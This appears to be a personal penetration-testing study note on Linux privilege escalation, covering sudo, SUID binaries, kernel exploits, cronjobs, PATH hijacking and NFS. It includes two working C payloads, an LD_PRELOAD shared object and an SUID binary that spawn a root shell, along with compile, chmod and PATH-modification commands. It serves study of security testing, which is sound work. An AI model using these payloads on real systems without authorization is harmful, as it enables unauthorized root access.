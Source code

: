 **Tags:** #type/tech-specific #tactic/privilege-escalation 

---


Useful checklists for privesc:
- [https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)
- [https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)

# scripts
scripts for privesc enumeration:
-  **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) - best tool :)
-  **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
-  **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
-  **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
-  **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)
# vectors:
**Info for specific tools: [https://gtfobins.github.io/](https://gtfobins.github.io/)**
goals:
- incorporate root user
- create root user

find anything with you can run with root priviliges and start shell out of it
	- vi (`:!sh` to start shell)
- if /etc/passwd is writeable: add user with root priviliges
- rewrite PATH: if a program running as root (SUID privilige) calls a system command, you can c(hange the PATH, so the program will call a "command" you choose/supply to it

## Sudo priviliges
`sudo -l` to see what commands the user can run with sudo
Many tools can be used to spawn a shell, that in turn also has root privs

## SUID/GUID binaries
find all files with SUID permission (those files always run as the file owner, not the user who executes it)
`find / -perm -u=s -type f 2>/dev/null`
`find / -type f -perm -04000 -ls 2>/dev/null`
find all SUID/SGID files:
`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
these files can then be used for privilege escalation

## Kernel exploits
1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit
resource:
[https://www.linuxkernelcves.com/cves](https://www.linuxkernelcves.com/cves)
## LD_PRELOAD
LD_PRELOAD is a function that allows any program to use shared libraries.

1. Check for LD_PRELOAD (use `sudo -l` and look for `env_keep` option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

C Code:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
} 
``` 

compile: `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

## Capabilities
the capabilties of a file can be changed, so a low privilige user can execute just this file 
find files: `getcap -r / 2>/dev/null`
see gtfobins for tool specific info

## Cronjobs
- cronjob running as root: see in `/etc/crontab`
- if file the cronjob is running is accessible by other users -> exploitable

possible scenario in company:
1. System administrators need to run a script at regular intervals.
2. They create a cron job to do this
3. After a while, the script becomes useless, and they delete it 
4. They do not clean the relevant cron job

## PATH
prerequisites:
- writeable folders in PATH or PATH can be changed
- application with root priviliges relies on PATH

search for writeable folders: `find / -writable 2>/dev/null`
search for subdirectories of writeable folders: `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
modify PATH: `export PATH=/tmp:$PATH`

## NFS
[[2 Tech-Specifics/Network/Protocols/NFS]]
critical option for privesc: rw, no_root_sqash
1. connect to nfs
2. generate file that launches bash (see section payloads)
3. set ownership of file to "root" and set suid
4. execute on target system -> root shell is started

# Payloads
c code to execute shell with suid and guid set
compile with: `gcc [filename] -o [filename] -w`
set suid with `chmod +s [filename]`
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
	setgid(0);
	setuid(0);
	system("/bin/bash -p");
	return 0;
}
``` 